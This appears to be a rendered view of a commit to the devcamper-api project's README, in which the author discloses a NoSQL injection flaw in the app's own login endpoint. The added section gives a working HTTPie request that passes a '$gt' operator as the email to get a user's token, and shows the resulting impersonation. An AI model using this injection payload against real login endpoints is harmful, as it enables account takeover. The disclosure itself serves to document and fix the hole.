

Before and after one commit to kaloyan-marinov/devcamper-api, a Markdown page: README.md, the part around the change. Shown at 93% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
67: describe a vulnerability to a *NoSQL injection* attack, which is currently present in the backend application

````diff
--- a/README.md
+++ b/README.md
@@ -145,3 +145,59 @@ http \
 # http://localhost:5000/uploads/<paste-the-copied-filename> ;
 # and load that page in the browser.
 ```
+
+---
+
+---
+
+as of commit `2dd80d66e99c2c6e4805206797c84027f1301ad0`,
+it is possible for a malicious actor
+to obtain an access token associated with _some_ registered `User`
+by simply guessing (the plaintext version of) that `User`'s password;
+more concretely,
+that can be achieved
+via the following <u>NoSQL injection</u> attack
+against the backend application:
+
+```bash
+http \
+  POST \
+  localhost:5000/api/v1/auth/login \
+  email:='{"$gt": ""}' \
+  password=123456
+
+# ...
+
+200
+
+{
+    "success": true,
+    "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6IjVkN2E1MTRiNWQyYzEyYzc0NDliZTA0MiIsImlhdCI6MTcyMzM4ODc0MSwiZXhwIjoxNzIzMzkyMzQxfQ.j1PmQydXE6dTSXJ5RJCgvo8sZvn8_otyWw35b6SJG14"
+}
+
+# That token corresponds to a `User` that does exist in the DB
+# and
+# can be used by the malicious actor to impersonate that `User`.
+
+export TKN=<the-returned-value>
+
+http \
+  localhost:5000/api/v1/auth/me \
+  Authorization:"Bearer ${TKN}"
+
+# ...
+
+200
+
+{
+    "data": {
+        "__v": 0,
+        "_id": "5d7a514b5d2c12c7449be042",
+        "createdAt": "2024-08-11T14:30:44.468Z",
+        "email": "admin@gmail.com",
+        "name": "Admin Account",
+        "role": "user"
+    },
+    "success": true
+}
+```
````
